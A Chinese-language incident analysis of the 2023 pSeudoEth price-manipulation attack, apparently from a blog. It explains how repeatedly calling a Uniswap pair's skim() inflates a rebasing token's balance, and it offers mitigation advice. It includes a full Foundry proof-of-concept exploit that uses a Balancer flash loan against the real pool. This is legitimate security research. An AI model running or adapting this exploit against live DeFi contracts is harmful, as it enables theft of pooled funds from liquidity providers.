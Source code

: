 ```yaml
---
layout: post
category: attack_events
---
```

# pSeudoEth@priceManipulation

`pSeudoEth`是一种ERC20代币，他的`balanceOf()`并不是恒定的，随着市场变动。有黑客发现他实现的逻辑有问题，然后通过uniswap的池子进行价格操纵，拿走了池子中的`pSeudoEth`。

- 时间：2023-10-08 10:20:59 (UTC)
- 损失金额：1.43 WETH (~$2.3k)
- twitter
  - twitter1: https://twitter.com/CertiKAlert/status/1710979615164944729
  - twitter2: https://twitter.com/ImmuneBytes/status/1711345757687816416


## 交易 

- 攻击事件hash：[0x4ab68b21799828a57ea99c1288036889b39bf85785240576e697ebff524b3930](https://etherscan.io/tx/0x4ab68b21799828a57ea99c1288036889b39bf85785240576e697ebff524b3930)
- 黑客地址：[0xea75AeC151f968b8De3789CA201a2a3a7FaeEFbA](https://etherscan.io/address/0xea75aec151f968b8de3789ca201a2a3a7faeefba)
- 黑客用来攻击的合约地址：[0xf88D1D6D9DB9A39Dbbfc4B101CECc495bB0636F8](https://etherscan.io/address/0xf88d1d6d9db9a39dbbfc4b101cecc495bb0636f8)
- 池子：[0x2033B54B6789a963A02BfCbd40A46816770f1161](https://etherscan.io/address/0x2033b54b6789a963a02bfcbd40a46816770f1161)
- 代币地址（未开源）：[0x62aBdd605E710Cc80a52062a8cC7c5d659dDDbE7](https://etherscan.io/address/0x62abdd605e710cc80a52062a8cc7c5d659dddbe7)

## 资金流向

![image-20231101204112812](12.pSeudoEth@priceManipulation/image-20231101204112812.png)

## 攻击过程

![image-20231101204259207](12.pSeudoEth@priceManipulation/image-20231101204259207.png)

![image-20231101204346524](12.pSeudoEth@priceManipulation/image-20231101204346524.png)

![image-20231101204448148](12.pSeudoEth@priceManipulation/image-20231101204448148.png)

## 攻击详细分析

从攻击过程可以看出，闪电贷只是用来获取启动资金。黑客就做了三个操作：WETH换成pETH，不断调用池子的`skim()`方法，pETH换成WETH，做完这三个操作，手头上的WETH就变多了，还款闪电贷获利。

不断的调用`skim()`就可以实现价格操纵，我们来看看`skim()`是干啥的：将池子中比`_reserve`多的币发给`to`地址，这个是用来让池子正常运作的，因为uniswap的`swap()`会比较`balanceOf()`和`_reserve`来维持k值不变，在有人“捐赠”代币到池子就会使池子暂时DoS，因此有这个方法将多余的代币转走。

> 这个方法任何人都可以调用，只要池子有多余的代币，就可以拿走，当然普通人是搞不到的，因为很多机器人实时在监控着池子

```solidity
    // force balances to match reserves
    function skim(address to) external lock {
        address _token0 = token0; // gas savings
        address _token1 = token1; // gas savings
        _safeTransfer(_token0, to, IERC20(_token0).balanceOf(address(this)).sub(reserve0));
        _safeTransfer(_token1, to, IERC20(_token1).balanceOf(address(this)).sub(reserve1));
    }
    function _safeTransfer(address token, address to, uint value) private {
        (bool success, bytes memory data) = token.call(abi.encodeWithSelector(SELECTOR, to, value));
        require(success && (data.length == 0 || abi.decode(data, (bool))), 'UniswapV2: TRANSFER_FAILED');
    }
```

可以看出，调用了`skim()`之后会调用token的`transfer()`。但是因为pETH的合约没有开源，我们无法查看他的`transfer()`的具体实现。

但是，其攻击逻辑和这篇[文章](https://medium.com/@Ancilia/the-uniswap-skim-token-balance-attack-b1399943d560)的如出一辙。我们可以推断，这个pETH的`transfer()`调用会影响类如`_totalSupply`这种变量，`balanceOf()`受到这个变量的影响，价格会波动！并且其`transfer()`没有检验发送者和接收者的地址，则可以不断调用`transfer()`使得`_totalSupply`无限制的增大，进而使得我们拥有的pETH增多。

但是，池子中的`_reserve`不变，则币对价格不变，我们手头上的pETH经过`balanceOf()`获得的余额增多，则我们可以用pETH在池子中换取更多的代币。类似的原理可以查看这个[文章](https://maxwelldulin.com/Resources/1110)。

## 复现

[GitHub](https://github.com/chen4903/BlockChainPoC)

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "./interface.sol";

contract ContractTest is Test {
    IWETH WETH = IWETH(payable(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2));
    IERC20 pEth = IERC20(0x62aBdd605E710Cc80a52062a8cC7c5d659dDDbE7);
    IBalancerVault Balancer = IBalancerVault(0xBA12222222228d8Ba445958a75a0704d566BF2C8);
    IUniswapV2Router UniRouter = IUniswapV2Router(payable(0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D));
    IUniswapV2Pair UNIPair = IUniswapV2Pair(0x2033B54B6789a963A02BfCbd40A46816770f1161);
    uint amount = 51_970_861_731_879_316_502_999;

    function setUp() public {
        vm.createSelectFork("mainnet", 18_305_132 - 1);
        vm.label(address(WETH), "WETH");
        vm.label(address(Balancer), "Balancer");
        vm.label(address(UniRouter), "Uniswap V2: Router");
        vm.label(address(UNIPair), "Uniswap V2: pEth");
    }

    function testExploit() external {
        WETH.approve(address(UniRouter), type(uint256).max);
        pEth.approve(address(UniRouter), type(uint256).max);

        uint startWETH = WETH.balanceOf(address(this));
        console.log("Before Start: %d WETH", startWETH);
        address[] memory tokens = new address[](1);
        tokens[0] = address(WETH);
        uint[] memory amounts = new uint[](1);
        amounts[0] = amount;
        Balancer.flashLoan(address(this), tokens, amounts, "");

        uint intRes =  WETH.balanceOf(address(this))/1 ether;
        uint decRes =  WETH.balanceOf(address(this)) - intRes * 1e18;
        console.log("Attack Exploit: %s.%s WETH", intRes, decRes);
    }

    function receiveFlashLoan(
        address[] memory tokens,
        uint256[] memory amounts,
        uint256[] memory feeAmounts,
        bytes memory userData
    ) external {
        address[] memory path = new address [](2);
        (path[0], path[1]) = (address(WETH), address(pEth));
        UniRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(
            amounts[0], 0, path, address(this), type(uint).max);
        uint pEth_amount = pEth.balanceOf(address(this));
        pEth.transfer(address(UNIPair), pEth_amount);

        for(uint i=0; i<10; i++){
            UNIPair.skim(address(UNIPair));
        }

        (path[0], path[1]) = (address(pEth), address(WETH));
        pEth_amount = pEth.balanceOf(address(this));
        UniRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(
            pEth_amount, 0, path, address(this), type(uint).max);

        WETH.transfer(address(Balancer), amount);
    }
}
```

## 建议

- 如果代币的balanceOf()是魔改的，余额会随着市场而变动，那么需要非常注意实现！其中一种漏洞就是transfer()发送者和接收者没有校验不能相同
- 魔改的代币需要时刻注意



